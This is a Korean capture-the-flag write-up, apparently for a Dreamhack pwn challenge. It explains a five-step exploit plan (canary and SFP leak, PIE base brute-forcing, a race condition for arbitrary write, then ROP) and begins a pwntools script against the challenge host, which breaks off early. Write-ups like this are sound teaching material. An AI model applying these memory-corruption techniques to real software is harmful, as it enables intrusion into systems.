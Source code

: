 ```c
  strncpy(arg, buf, (__int64)nbytes / 2);
  strncpy(&arg[(__int64)nbytes / 2], &buf[(__int64)nbytes / 2], (__int64)nbytes / 2);
  printf("Hello %s\n", buf);
  ...
}
```

## 익스플로잇 시나리오

`sub_1491`를 몇 번째 실행 중인가에 따라 나누었습니다.

1. **canary & SFP leak**

OOB를 이용하여 `main`함수 쪽으로 이동하도록 RET을 변경하고, `src`에서의 BOF를 이용하여 카나리와 SFP를 알아냅니다. 복호화를 해야 함을 까먹지 않습니다. 

2. **PIE 베이스 주소 구하기**

PIE_base를 모르지만, 함수 주소의 아래 세 바이트는 일정하다는 점을 이용하여 `main`함수 쪽으로 돌아가게 할 수 있습니다. 1/16확률입니다. try_except 구문을 이용하여 구현하면 좀 더 수월합니다. 이번 BOF를 통해 PIE_base를 구할 수 있습니다.

3. **`nbytes` 16으로 늘리기**

`sub_1491`에서 `nbytes`를 16으로 설정하는 if문 안쪽의 주소로 RET 값을 변경하여 `buf`에 입력할 수 있는 값의 길이를 길게 합니다. 여기부터 Race condition을 준비하는 것입니다.

여기서 저는 스택 구조가 꼬이는 게 너무 머리가 아파서 `main`쪽으로 한 번 더 이동했습니다.

4. **Race condition 준비**

Race condition으로 AAW 취약점을 적용하기 위해 `main`함수 쪽으로 돌아갑니다.

5. **AAW**

적당히 큰 수(ex 1028)를 앞에 놓고, `nbytes`의 주소를 뒤에 놓아 `nbytes`의 값을 변경합니다. 그 후는 주어진 libc를 이용해 ROP를 하면 됩니다.

## 익스플로잇 코드

아래 코드는 상기에서 설명한 시나리오대로 익스플로잇을 수행합니다. 익스 시나리오에서 이해가 되지 않은 부분은 코드의 주석을 통해 더 이해를 할 수 있을 것 같습니다.

```python
#!/usr/bin/env python3
from pwn import *

key = 0
for i in range(1, 1002):
    key ^= i # key = 1

def decrypt(s):
    str_new = list(s)
    for i in range(len(str_new)):
        a = str_new[i] ^ 1
        str_new[i] = a.to_bytes(1, 'big')
    str_new = b''.join(str_new)
    return str_new

while True :
    typ = 1
    p = 0
    if typ : p = remote('host3.dreamhack.games', 14490)
    else : p = process('./prob')
    e = ELF('./prob')
    l = ELF('./libc.so.6')

    try:
        #First sub_1491 - OOB, canary & SFP leak
        main_p = 0x00000000000017f9
        plus = main_p - 0x1808
        p.sendafter(b': \n', b'a') # s
```